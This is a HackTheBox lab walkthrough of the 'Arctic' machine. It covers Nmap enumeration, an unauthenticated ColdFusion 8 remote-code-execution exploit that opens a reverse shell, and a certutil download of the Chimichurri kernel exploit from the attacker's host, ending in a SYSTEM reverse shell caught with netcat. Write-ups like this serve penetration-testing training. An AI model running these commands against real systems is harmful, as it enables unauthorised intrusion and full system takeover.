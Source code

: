# HackTheBox
------------------------------------
### IP: 10.129.42.31
### Name: Arctic
### Difficulty: Easy
--------------------------------------------

![Arctic.png](../assets/arctic_assets/Arctic.png)

I'll begin enumerating this box by scanning all TCP ports with Nmap. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Arctic]
└─$ sudo nmap -p- -sC -sV 10.129.42.31
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-03 16:46 CDT
Nmap scan report for 10.129.42.31
Host is up (0.071s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 330.82 seconds
```

Looking at port 8500 we find an index.

![arctic_8500.png](../assets/arctic_assets/arctic_8500.png)

This is looking like ColdFusion. Clicking into CFIDE we fan an administrator page:

![arctic_administrator.png](../assets/arctic_assets/arctic_administrator.png)

Following the administrator link we find a ColdFusion 8 login page.

![arctic_cf8.png](../assets/arctic_assets/arctic_cf8.png)

Looking for exploits I find this unauthenticated RCE exploit for Cold Fusion 8: https://www.exploit-db.com/exploits/50057

Lets give it a shot.

### Exploitation

Firstly we'll need to update lines 71-75 in the exploit to the correct IPs and ports:

```python
    # Define some information
    lhost = '10.10.14.216'
    lport = 443
    rhost = "10.129.42.31"
    rport = 8500
```

We can then launch the exploit with:

```
┌──(ryan㉿kali)-[~/HTB/Arctic]
└─$ python ~/Tools/exploits/coldfusion8_rce.py
```

This exploit spawns a reverse shell for us:

```
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>hostname
hostname
arctic
```

From here I can grab the user.txt flag:

![arctic_user_flag.png](../assets/arctic_assets/arctic_user_flag.png)

### Privilege Escalation

Not seeing much of interest on the box I decide to run `systeminfo` to see how old it is and what patching has been done:

```
C:\Users\tolis\Desktop>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          4/7/2024, 8:35:41 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.087 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.243 MB
Virtual Memory: In Use:    1.042 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.42.31
```

Wow, this is a Windows Server 2008 R2 that hasn't been patched.

This is likely vulnerable to Chimichurri: https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri

Lets give it a try.

Lets transfer the exploit over:

```
C:\temp>certutil -urlcache -split -f "http://10.10.14.216/Chimichurri.exe"
certutil -urlcache -split -f "http://10.10.14.216/Chimichurri.exe"
****  Online  ****
  000000  ...
  0bf800
CertUtil: -URLCache command completed successfully.
```

We can then setup a netcat listener and run:

```
C:\temp>.\Chimichurri.exe 10.10.14.216 444
.\Chimichurri.exe 10.10.14.216 444
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

And after waiting about a minute we get a call back to our listener:

```
┌──(ryan㉿kali)-[~/HTB/Arctic]
└─$ nc -lnvp 444 
listening on [any] 444 ...
connect to [10.10.14.216] from (UNKNOWN) [10.129.42.31] 49301
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\temp>whoami
whoami
nt authority\system

C:\temp>hostname
hostname
arctic
```

We can now grab the root.txt flag:

![arctic_root_flag.png](../assets/arctic_assets/arctic_root_flag.png)

Thanks for following along!

-Ryan

---------------------------------------------------------------------
